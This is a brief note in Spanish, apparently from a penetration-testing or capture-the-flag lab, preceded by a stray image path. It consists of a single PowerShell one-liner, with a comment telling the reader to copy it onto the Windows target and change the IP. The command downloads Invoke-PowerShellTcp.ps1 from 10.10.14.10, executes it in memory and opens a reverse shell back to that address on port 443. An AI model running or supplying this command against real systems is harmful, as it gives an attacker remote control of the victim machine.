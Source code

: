 #Copiar en la maquina windows (cambiando la IP del comando y del script) para obtener la reverse shell

powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.14.10:4141/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.10 -Port  443


